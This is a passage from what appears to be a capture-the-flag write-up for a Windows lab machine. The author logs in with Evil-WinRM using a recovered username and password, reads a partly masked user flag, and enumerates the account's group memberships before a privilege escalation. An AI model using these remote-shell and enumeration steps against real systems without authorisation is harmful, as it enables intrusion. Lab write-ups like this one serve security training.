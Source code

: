 I’ll use Evil-WinRM to get a shell:

```

root@kali# evil-winrm -u s.smith -p sT333ve2 -i 10.10.10.182

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\s.smith\Documents>

```

The machine is actually Windows 2008:

```
*Evil-WinRM* PS C:\Users\s.smith\desktop> [environment]::OSVersion.Version

Major  Minor  Build  Revision
-----  -----  -----  --------
6      1      7601   65536

```

I can also grab `user.txt`:

```
*Evil-WinRM* PS C:\Users\s.smith\desktop> cat user.txt
d1c7e103************************

```

## Privesc: s.smith –> arksvc

### Enumeration

s.smith is a member of the `Audit Share` group:

```
*Evil-WinRM* PS C:\shares\audit> net user s.smith
User name                    s.smith
Full Name                    Steve Smith
Comment
User's comment
Country code                 000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/28/2020 8:58:05 PM
Password expires             Never
Password changeable          1/28/2020 8:58:05 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script                 MapAuditDrive.vbs
User profile
Home directory
Last logon                   3/30/2020 6:40:39 AM

Logon hours allowed          All

Local Group Memberships      *Audit Share          *IT
                             *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.

```